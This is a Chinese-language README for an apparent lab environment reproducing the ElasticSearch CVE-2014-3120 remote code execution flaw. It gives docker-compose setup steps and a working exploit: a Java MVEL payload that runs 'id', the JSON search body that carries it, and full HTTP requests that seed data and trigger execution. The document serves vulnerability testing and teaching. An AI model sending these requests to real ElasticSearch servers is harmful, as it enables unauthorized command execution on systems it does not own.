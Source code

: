 # ElasticSearch 命令执行漏洞（CVE-2014-3120）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.1.1

## 原理

相关文档：http://bouk.co/blog/elasticsearch-rce/ 、 https://www.t00ls.net/viewthread.php?tid=29408

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

MVEL执行命令的代码如下：

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

## 漏洞测试

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

将Java代码放入json中：

```json
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

然后，执行任意代码：

```
GET /_search?source=%7B%0A%20%20%20%20%22size%22%3A%201%2C%0A%20%20%20%20%22query%22%3A%20%7B%0A%20%20%20%20%20%20%22filtered%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22query%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%20%20%22match_all%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%2C%0A%20%20%20%20%22script_fields%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22command%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%22script%22%3A%20%22import%20java.io.*%3Bnew%20java.util.Scanner(Runtime.getRuntime().exec(%5C%22id%5C%22).getInputStream()).useDelimiter(%5C%22%5C%5C%5C%5CA%5C%22).next()%3B%22%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%20%20%7D HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

结果如图：

![](1.png)
